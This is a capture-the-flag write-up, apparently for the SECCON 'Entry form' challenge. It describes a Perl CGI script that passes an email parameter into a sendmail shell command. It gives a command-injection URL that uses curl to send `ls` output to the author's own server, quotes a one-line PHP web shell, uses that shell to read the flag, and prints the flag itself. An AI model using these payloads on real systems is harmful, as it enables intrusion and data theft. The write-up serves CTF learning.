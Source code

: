 Entry form
----------

Another pretty easy problem. We are given a link to a form where we can enter a username and email,
after submitting the form, the page says "Your entry was sent". Not very much going on here.

The page is a cgi script, and is probably injectable.

We take a look at the root of the web server (http://entryform.pwn.seccon.jp), and notice that it is shows
the directory structure. From there we find the file `register.cgi_bak`, apparently the source code for the
entry form:


Here is the most interesting part:
```
if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);
  
  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);
```

Yup, we can inject commands into the "mail" query string argument after a single quote. We run `ls` with this url:
```
http://entryform.pwn.seccon.jp/register.cgi?mail=%27`curl%20<my server>:9999/%20--data%20%22$(ls)%22`%27&name=asdf&action=Send
```
Note: I used `curl -d` to send command to the a server I controlled, but apparently that was not needed, you could just run the command
and the results would show up in the page.

Either way, next I tried run `cat log`, but this does not work because the user we are running commands as only has write permissions to that file.

Conveniently, we find a script `backdoor123.php` under the `SECRETS` directory on the web server. It provides a way around this issue:
```
<pre><?php system($_GET['cmd']); ?></pre>
```

From there, we simple run `head` to get the flag out of the log file.

The final url:
```
http://entryform.pwn.seccon.jp/SECRETS/backdoor123.php?cmd=head%20-n3%20../log
```

And the flag: SECCON{Glory_will_shine_on_you.}

